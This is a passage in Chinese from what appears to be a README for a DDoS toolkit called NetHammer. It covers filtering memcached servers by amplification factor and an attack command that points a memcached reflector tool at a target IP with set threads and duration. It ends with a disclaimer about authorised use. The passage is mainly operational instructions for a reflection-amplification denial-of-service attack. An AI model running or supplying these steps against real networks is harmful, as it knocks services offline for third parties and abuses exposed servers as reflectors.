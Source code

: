 ### **2. 过滤阶段**
```bash
# PHP脚本自动过滤高放大倍数服务器
# 输出格式: IP 响应长度 [放大倍数]
# 例: 1.2.3.4 50000 [x500.0]
```

### **3. 攻击阶段**
```bash
# 使用筛选出的反射器进行攻击
./attack_tools/memcached 目标IP 目标端口 memcache_list.txt 线程数 持续时间
```

---

## ⚠️ **安全提醒**

### **合法用途**
- ✅ 内网安全测试
- ✅ 授权渗透测试  
- ✅ 安全研究和学习

### **禁止用途**
- ❌ 未授权网络扫描
- ❌ 恶意DDoS攻击
- ❌ 破坏网络服务

### **技术风险**
- 🔍 **可追踪性**: 扫描活动可能被记录
- 🚫 **法律风险**: 未授权使用属于违法行为
- 🛡️ **防护措施**: 现代防火墙可检测此类攻击

---

**总结**: PKT/TPL文件和PHP脚本是NetHammer的核心组件，用于构造攻击数据包和扫描反射服务器。它们大大提高了攻击的自动化程度和效果，但必须在合法授权的范围内使用。
